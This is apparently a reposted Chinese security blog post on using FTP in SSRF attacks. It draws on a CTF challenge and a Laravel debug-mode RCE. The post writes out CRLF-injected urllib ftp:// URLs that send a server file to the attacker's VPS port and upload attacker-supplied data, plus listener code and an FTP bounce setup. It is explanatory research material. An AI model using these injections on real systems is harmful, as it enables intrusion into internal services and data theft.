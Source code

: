 > 原文链接: https://www.anquanke.com//post/id/251517 


# FTP在ssrf中的应用


                                阅读量   
                                **16225**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t01bfc808b7dc2bb947.png)](https://p1.ssl.qhimg.com/t01bfc808b7dc2bb947.png)



## 前言

ssrf中常用的协议有http，gopher等。但http的用处也仅限于访问内网网页，在可以crlf的情况下才有可能扩大攻击范围。gopher协议比较特殊，有一些环境下支持此协议，如：curl；但还一些就不支持，如:urllib.request模块。

但最近的laravel框架爆出的rce吸引了我的注意力。此文中，在可使用的协议受到约束的条件下，他们选择使用ftp协议攻击php-fpm达到rce。出于此，笔者决定探究ftp协议在ssrf中都有哪些应用。



## ftp的两种模式

ftp协议是文件传输协议，其使用模式有两种：

1.主动模式这个模式下，客户端向服务端发送连接请求命令PORT a,a,a,a,b,c，其中a是客户端ipv4的地址，b和c记录了一个由客户端开放的端口(b×256)+c。随后服务端去连接这个客户端地址。连接成功后开始对文件的传输。但由于客户端会由于防火墙等原因，导致服务端无法连接。就需要另一个模式了。

2.被动模式这个模式下，客户端向服务端发送连接请求命令PASV，随后服务端返回一个类似于右边字符串的响应227 Entering passive mode (a,a,a,a,b,c).，告诉客户端连接对应的地址进行文件传输。

发现了吗？在上面的命令中a, b, c如果可以受到我们控制，不就可以达到ssrf的效果了吗？



## 对ftp server进行ssrf

在刚刚结束的starctf中，其中一题oh-my-bet便是用到了主动模式下的ftp进行ssrf，发送二进制数据至mongoDB更改数据库中数据。

以下是原题目中使用pyftpdlib模块搭建于内网中的ftp server。

```
# import logging
from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer
authorizer = DummyAuthorizer()
authorizer.add_user("fan", "root", ".",perm="elrafmwMT")
authorizer.add_anonymous(".")
handler = FTPHandler
handler.permit_foreign_addresses = True #&lt;-- 此句很重要，原因后说
handler.passive_ports = range(2000, 2030)
handler.authorizer = authorizer
# logging.basicConfig(level=logging.DEBUG) &lt;-- 在测试时加入此句方便dubug
server = FTPServer(("0.0.0.0", 8877), handler)
server.serve_forever()
```

除ftp server，还有一个存在于内网的mongoDB，储存flask-session的pickle序列化数据。以及一个内网mysql储存用户数据。最后是向公网开放的flask(还有一个内网redis，这里用不到)。

原题目中存在一个参数可控的urllib.request.urlopen(value)，且python版本3.6，存在crlf漏洞。题目最后要求rce，唯一有可能的点就是储存在mongoDB中的flask-session序列化数据。但如果使用http协议crlf传输mongoDB是不行的，会被mongoDB拒绝连接。gopher协议不支持。所以最终着眼于ftp协议。

本文为讲解ftp在ssrf中的应用，简化上面环境，假设ftp-server.py所在目录有以下文件。

[![](https://p3.ssl.qhimg.com/t017e3c9b36a59dfaed.png)](https://p3.ssl.qhimg.com/t017e3c9b36a59dfaed.png)

先在urllib中连接尝试读取文件。

[![](https://p0.ssl.qhimg.com/t017293cacc55963402.png)](https://p0.ssl.qhimg.com/t017293cacc55963402.png)

urllib在成功连接控制端口后，会发送url中的用户名与密码，因此可以在密码后crlf，注入其它命令。以下会发送ftp-server.py文件至自己vps的2333端口。ur.urlopen(“ftp://fan:root\r\nTYPE I\r\nCWD .\r\nPORT v,p,s,ip,9,29\r\nRETR ftp-server.py\r\n@172.17.0.1:8877/ftp-server.py”).read()

[![](https://p3.ssl.qhimg.com/t0156ec24e69db09e97.png)](https://p3.ssl.qhimg.com/t0156ec24e69db09e97.png)

既然都可以上传至自己vps上的指定端口，那么就可以将其改为内网的任意ip与端口。

ip可控，接下来就是如何控制内容了。

正常情况下，单凭urlopen是无法上传文件的，但因为有crlf，我们可以轻易上传文件。以下链接告诉服务器：从自己vps的2333端口获取test文件，保存ur.urlopen(“ftp://fan:root\r\nTYPE I\r\nCWD .\r\nPORT v,p,s,ip,9,29\r\nSTOR test\r\n@172.17.0.1:8877/”).read()

这里简单写一个socket监听。

```
import socket
s = socket.socket()
s.bind(("0.0.0.0", 2333))
s.listen()
c, a = s.accept()
print(a)
c.send(b'\x02\x03\x03')
c.close()
s.close()
```

[![](https://p2.ssl.qhimg.com/t016fdd113df38a2e0a.png)](https://p2.ssl.qhimg.com/t016fdd113df38a2e0a.png)

成功上传。

上面是通过ftp server进行ssrf，但真实情况下就不太可能出现了。这种攻击被称为FTP bounce attack，有一定的年头了。现在的ftp server都会禁止这一行为。但在此题中handler.permit_foreign_addresses = True，让这种操作变为可能。



## 对ftp clinet进行ssrf

回到刚才说的laravel debug rce。

根据暴露此漏洞的原文。在模块中有以下抽象过的代码。

```
$data = file_get_contents($file);
file_put_contents($file, $data);
```

文章首先给出的方法是利用php://清空log文件，然后写入phar数据，使用phar协议反序列化。但还有一个方法，文章没有细说，就是使用ftp攻击php-fpm。

那么具体思路如下：

1.php从我们的ftp server获取payload，存入变量。

2.php上传文件时，将被动模式的连接地址改为内网地址，payload攻击。

我们先看一看php的file类函数是如何发送ftp请求的。依然是利用上面pyftpdlib模块的脚本开启ftp服务。在命令行使用：

```
php -r '$data = file_get_contents(\'ftp://fan:root@127.0.0.1:8877/test\');file_put_contents(\'ftp://fan:root@127.0.0.1:8877/test\', $data);'
```

查看ftp服务日志。(这里仅列出关键信息)

```
; php获取文件
DEBUG:pyftpdlib:127.0.0.1:18486-[] -&gt; 220 pyftpdlib 1.5.6 ready.
DEBUG:pyftpdlib:127.0.0.1:18486-[] &lt;- USER fan
DEBUG:pyftpdlib:127.0.0.1:18486-[] -&gt; 331 Username ok, send password.
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] &lt;- PASS ******
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] -&gt; 230 Login successful.
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] &lt;- TYPE I
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] -&gt; 200 Type set to: Binary.
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] &lt;- SIZE /test
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] -&gt; 213 4
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] &lt;- EPSV
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] -&gt; 500 'EPSV': command not understood.
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] &lt;- PASV
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] -&gt; 227 Entering passive mode (127,0,0,1,35,40).
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] &lt;- RETR /test
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] -&gt; 150 File status okay. About to open data connection.
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] -&gt; 226 Transfer complete.
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] &lt;- QUIT
DEBUG:pyftpdlib:127.0.0.1:18486-[fan] -&gt; 221 Goodbye.
; php上传文件
DEBUG:pyftpdlib:127.0.0.1:18488-[] -&gt; 220 pyftpdlib 1.5.6 ready.
DEBUG:pyftpdlib:127.0.0.1:18488-[] &lt;- USER fan
DEBUG:pyftpdlib:127.0.0.1:18488-[] -&gt; 331 Username ok, send password.
DEBUG:pyftpdlib:127.0.0.1:18488-[fan] &lt;- PASS ******
DEBUG:pyftpdlib:127.0.0.1:18488-[fan] -&gt; 230 Login successful.
DEBUG:pyftpdlib:127.0.0.1:18488-[fan] &lt;- TYPE I
DEBUG:pyftpdlib:127.0.0.1:18488-[fan] -&gt; 200 Type set to: Binary.
DEBUG:pyftpdlib:127.0.0.1:18488-[fan] &lt;- SIZE /test
DEBUG:pyftpdlib:127.0.0.1:18488-[fan] -&gt; 213 4
```

这里，php先使用SIZE命令确认文件是否存在，然后使用了EPSV命令，这个命令是启用扩展被动模式。ftp server将指返回端口，不返回ip。解决方法很简单，找一个不支持这个扩展的服务器就行。(这里笔者是修改了pyftpdlib的源码)

综合上面信息，有两个难点：

1.获取和上传的是同一个文件，file_put_contents会检测文件是否存在，如果存在则不会进行上传操作。因此需要在获取文件后的瞬间删除该文件。

2.一般ftp client都使用被动模式。php获取文件时，要求被动模式返回服务器自己的地址。但php上传文件时，返回的却是内网地址。

很明显，上面的问题套用一般的轮子很难解决。这里虽然可以尝试利用hook之类的技术实现类似效果，但因为ftp协议本身的交互没有那么复杂。所以笔者决定做一个fake ftp(已开源)。

这里尝试将一个test字符串从外网，通过php的ftp client发送至内网的2333端口。

效果如下：

[![](https://p2.ssl.qhimg.com/t0183fab53b74ea10b0.png)](https://p2.ssl.qhimg.com/t0183fab53b74ea10b0.png)

[![](https://p2.ssl.qhimg.com/t01b6c61d652bdd740d.png)](https://p2.ssl.qhimg.com/t01b6c61d652bdd740d.png)

[![](https://p3.ssl.qhimg.com/t0159c068a08734ddc2.png)](https://p3.ssl.qhimg.com/t0159c068a08734ddc2.png)



## 总结

ftp可以在ssrf中起到作用，其原因便是PORT和PASV两个命令导致的连接跳转。把握此点，便可使ftp在漏洞利用中大放异彩！一个老掉牙的ftp协议，在如今也可以返回人们的视野。告诫我们不要忽视那些细节，可能那些细节便是一个突破口。
